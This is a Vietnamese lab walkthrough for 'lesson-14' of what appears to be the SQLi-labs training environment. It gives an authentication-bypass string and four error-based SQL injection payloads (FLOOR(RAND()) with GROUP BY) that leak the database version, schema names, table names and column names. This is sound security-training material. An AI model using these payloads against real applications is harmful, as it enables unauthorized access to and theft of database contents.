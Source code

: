 # Những việc làm được với lesson-14
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-14

![](../images/lesson14/screen_10.png)

Giống với những bài trước thì ở bài này chúng ta đi tìm cấu trúc của bài này bằng cách thử các ký tự và cho nó luôn đúng. Cấu trúc  của bài này là: 

```
" or 1=1 -- 
```

![](../images/lesson14/screen.png)

Trong khi tìm kiếm tôi còn phát hiện ra ở bài này nó sẽ báo về cấu trúc truy vấn sai về. Chính vì thế mà ta có thể lợi dụng điều này để có thể tìm hiểu về cấu trúc DB của chúng. Thì giống như cách sử dụng những bài báo lỗi trước đây thì ta có thể dùng cấu trúc sau để truy vấn như sau 

1. Kiểm tra version của DB 

```
"  and (SELECT 0 FROM (SELECT count(*), CONCAT((@@version), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

![](../images/lesson14/screen_2.png)

2. show tên của từng table trong DB 

```
"  and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='security' limit 0,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

![](../images/lesson14/screen_4.png)

3. show tên của từng DB một 

```
"  and (SELECT 0 FROM (SELECT count(*), CONCAT((select SCHEMA_NAME from information_schema.schemata limit 1,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

![](../images/lesson14/screen_3.png)

4. Hiển thị tên cột trong một bảng 

```
"  and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT COLUMN_NAME FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 0,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

![](../images/lesson14/screen_5.png)

Tương tự như thế chúng ta có thể thấy được rất nhiều thông tin trong DB bằng cách này và sử dụng câu truy vấn giống như các bài đầu tiên tôi đã làm kỹ 